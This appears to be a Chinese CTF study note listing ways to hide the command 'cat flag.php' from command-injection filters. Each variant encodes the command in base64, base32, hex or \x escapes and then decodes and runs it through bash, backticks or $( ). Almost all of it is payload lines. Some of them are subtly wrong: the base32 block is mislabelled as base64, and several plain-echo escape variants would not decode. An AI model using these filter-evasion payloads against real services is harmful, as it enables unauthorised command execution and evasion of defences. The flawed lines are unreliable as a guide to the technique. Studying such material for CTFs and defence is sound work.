

**流程**
```text
命令编码后的字符串    --->>>    目标服务器     --->>>    执行命令
				   绕过过滤              解码读取命令
```


**base64**
```
命令cat flag.php
绕过检测 --》经过base64 编码Y2F0IGZsYWcucGhwCg==

解码并执行命令：
echo "Y2F0IGZsYWcucGhwCg==" | base64 -d | bash
或
echo "Y2F0IGZsYWcucGhwCg==" | base64 -d | /bin/bash
或
`echo "Y2F0IGZsYWcucGhwCg==" | base64 -d`
或
$(echo "Y2F0IGZsYWcucGhwCg==" | base64 -d)

这里的echo函数不是输出到源码中而是将Y2F0IGZsYWcucGhwCg==作为输出流传递给base64 -d
```

**base32**
```
命令cat flag.php
绕过检测 --》经过base64 编码MNQXIIDGNRQWOLTQNBYAU===

解码并执行命令：
echo "MNQXIIDGNRQWOLTQNBYAU===" | base32 -d | bash
或
echo "MNQXIIDGNRQWOLTQNBYAU===" | base32 -d | /bin/bash
或
`echo "MNQXIIDGNRQWOLTQNBYAU===" | base32 -d`
或
$(echo "MNQXIIDGNRQWOLTQNBYAU===" | base32 -d)

这里的echo函数不是输出到源码中而是将MNQXIIDGNRQWOLTQNBYAU===作为输出流传递给base32 -d
```

**hex**
linux进行16进制编码
`echo -n 'cat flag.php' | xxd -p`
- 输出字符串的命令,用于传递数据给管道符
- 关键参数，表示**不在输出末尾添加换行符**
	- **不加 `-n` 的效果：** `echo -n 'cat flag.php' 输出"cat flag.php\n"`
- **`xxd`**: 十六进制转储工具，用于在十六进制和二进制之间转换
- **`p`**: 以**纯十六进制连续字符串**格式输出（没有地址信息和空格分隔）
```
命令cat flag.php
绕过检测 --》经过hex 编码63617420666c61672e706870

解码并执行命令：
echo "63617420666c61672e706870" | xxd -r -p | bash
或
echo "63617420666c61672e706870" | xxd -r -p | /bin/bash
或
`echo "63617420666c61672e706870" | xxd -r -p`
或
$(echo "63617420666c61672e706870" | xxd -r -p)
```

**shellcode**
```
命令cat flag.php
绕过检测 --》经过shellcode 编码\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70

解码并执行命令：
echo "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70" | bash
printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70" | bash
或
echo "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70" | /bin/bash
printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70" | /bin/bash
或
`echo "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"`
`printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70"`
或
$(echo "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70")
$(printf "\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70")
```
